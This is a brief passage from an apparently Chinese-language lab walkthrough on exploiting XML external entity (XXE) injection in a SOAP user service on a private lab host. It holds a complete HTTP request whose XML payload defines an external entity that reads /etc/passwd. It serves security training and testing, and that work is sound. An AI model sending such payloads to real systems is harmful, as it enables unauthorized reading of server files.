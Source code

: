 [![](assets/1705886707-928fb1c6241668cc0497591a850e9819.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115712-fdcf0ed0-b747-1.png)  
SOAP服务器用来解析该请求的XML库允许使用外部实体，因此我们可以利用它从SOAP服务中读取任意文件

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-547d206bc7e9bae04224608976fc9354.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115730-08aea14e-b748-1.png)
